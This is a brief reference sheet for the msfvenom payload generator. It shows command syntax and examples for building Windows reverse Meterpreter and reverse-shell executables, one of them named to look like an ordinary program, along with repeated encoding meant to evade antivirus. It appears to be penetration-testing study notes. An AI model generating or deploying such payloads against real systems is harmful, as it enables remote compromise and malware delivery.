 # Msfvenom

## Payloads 

`List of payloads`

    -l payloads

`Format`

    $ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]

`Example`

Reverse Meterpreter payload as an executable and redirected into a file:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1  PORT=4444 –f exe > met.exe

Reverse TCP payload as an EXE creating the Wise.exe program

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.131 LPORT=7777 -f exe -o Wise.exe

` Format Options (specified with –f)` 

| **Option** | **Description** |
|------------|-----------------|
|`--help-formats` | Print out a summary of the specified options |
|`exe` | Executable |
| `pl` | Perl |
| `rb` | Ruby |
| `raw` | Raw shellcode |
| `c` | C code |

------

## Encoders

`List of encoders`

    -l encoders

    $ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]

`Example`

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

    $ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe